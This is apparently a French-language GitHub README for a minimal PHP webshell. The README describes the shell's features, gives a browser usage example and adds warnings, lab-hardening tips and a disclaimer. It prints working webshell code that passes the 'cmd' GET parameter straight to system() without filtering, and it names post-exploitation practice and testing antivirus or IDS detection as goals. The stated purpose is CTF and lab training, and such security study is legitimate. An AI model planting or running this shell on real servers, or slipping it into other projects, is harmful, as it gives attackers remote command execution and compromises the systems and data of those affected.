 # 🐚 PHP WebShell – Interface Commande à Distance

Ce projet est un **WebShell PHP minimaliste** permettant l’exécution de commandes système via une interface web. Il est destiné uniquement à des usages **éducatifs ou en environnement de test local (CTF, lab personnel)**.

---

## ⚠️ Avertissement

> ❗️Ce script donne un accès total au shell du serveur.
>
> **NE JAMAIS déployer ce WebShell sur un serveur en production.**  
> Son usage peut compromettre l'intégrité, la confidentialité et la disponibilité du système.

---

## 📋 Fonctionnalités

- Interface web simple en HTML/CSS
- Exécution de commandes système en GET (`?cmd=`)
- Résultats affichés dans un `<pre>` stylisé
- Échappement de la commande affichée via `htmlspecialchars()` (mais pas de la commande exécutée)

---

## 🔧 Exemple d'utilisation

Accès local via navigateur :

```
http://localhost/webshell.php?cmd=whoami
```

Affiche :

```bash
$ whoami
www-data
```

---

## 🖼️ Aperçu visuel

![WebShell screenshot](https://via.placeholder.com/600x300?text=WebShell+interface)

---

## 📂 Fichiers

- `webshell.php` – Interface WebShell
- Aucune dépendance externe requise

---

## 🛡️ Sécurisation (si utilisé en CTF ou lab isolé)

Si vous devez exposer ce script temporairement :

- Restreignez par IP (`.htaccess`, `nginx allow`)
- Protégez avec un `.htpasswd` ou token simple
- Évitez l’exécution via `root`
- Supprimez le script dès la session terminée

---

## 📜 Code source (extrait)

```php
<?php
    if (isset($_GET['cmd'])) {
        echo "<span style='color: #6A9955;'>$ </span>" . htmlspecialchars($_GET['cmd']) . "\n";
        system($_GET['cmd'] . ' 2>&1');
    }
?>
```

---

## 📚 Notes

- La commande est envoyée en **GET**, donc visible dans l’historique du navigateur et dans les logs.
- Pour l’exécution en POST, adaptez simplement le formulaire et utilisez `$_POST['cmd']`.

---

## 🧠 Objectifs pédagogiques

Ce projet permet de :

- Comprendre les risques liés à `system()` et à l'exécution de code non filtré
- Tester la détection d'antivirus ou d'IDS
- Entraîner des techniques de post-exploitation

---

## 🔒 Disclaimer

> Ce projet est uniquement destiné à des **finalités pédagogiques et de sécurité offensive éthique**.  
> L'auteur **décline toute responsabilité** en cas de mauvaise utilisation.

